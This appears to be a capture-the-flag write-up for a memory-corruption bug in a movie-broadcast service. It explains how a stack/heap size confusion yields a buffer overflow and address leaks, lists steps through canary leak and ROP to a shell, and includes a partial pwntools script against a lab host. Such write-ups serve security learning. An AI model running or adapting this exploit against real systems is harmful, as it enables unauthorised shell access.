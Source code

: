 At broadcast, set values and call broadMain. <br />
It receives parts of ip and port number, and broadcast contents to there. <br />
If content's size is lower then 0x400, contents are stored in stack, but in the oppisite case, they are stored in heap. <br />
Assume X size contents and Y size contents. <br />
In a situation X < 0x400 and Y >=0x400, if we read contents by X, then it cause bof. <br />
Other situation X < 0x400 and Y < X, if we read contents by X, then we can read stack. <br />
Through this, we can make bof, and get libc, stack, and heap's address. <br />

***

## Ex flow

1. Leak libc_base, stack's address, heap's address and chunk's address.
2. Doing bof and overwrite 'n' of 'if(n > 0x3ff)' and 'ptr' of 'free(ptr)'.
3. We can free chunk which we want. Free the first movie's chunk.
4. Chunk size is different by title's length. If we register a decent sized movie, then we can use chunk which we free before.
5. When we reuse chunk, we can set values, so we can get canary.
6. Lastly, through ROP, we can get shell.

***

## Ex code
```python
from pwn import *

context.log_level = 'debug'

r1 = remote('192.168.0.2', 8106)
r2 = remote('192.168.0.2', 8106)

print("r1 start")
r1.sendlineafter(b'name > ', b'AA')
r1.sendlineafter(b'> ', b'2')
r1.sendlineafter(b'title of movie > ', b'BB')
r1.sendlineafter(b'category of movie > ', b'1')

#pass checking title (duplicate)
print("r2 start")
r2.sendlineafter(b'name > ', b'AA')
r2.sendlineafter(b'> ', b'2')
r2.sendlineafter(b'title of movie > ', b'BB')
r2.sendlineafter(b'category of movie > ', b'1')

r1.sendlineafter(b'size of movie > ', str(0x88).encode())
r1.send(b'C'*0x88)

sleep(1)

r2.sendlineafter(b'size of movie > ', str(0x0).encode())

r1.close()
r2.close()


#listen on 1111
server = listen(1111)


# size1 < size2 and size2>=0x400
r1 = remote('192.168.0.2', 8106)
r2 = remote('192.168.0.2', 8106)
```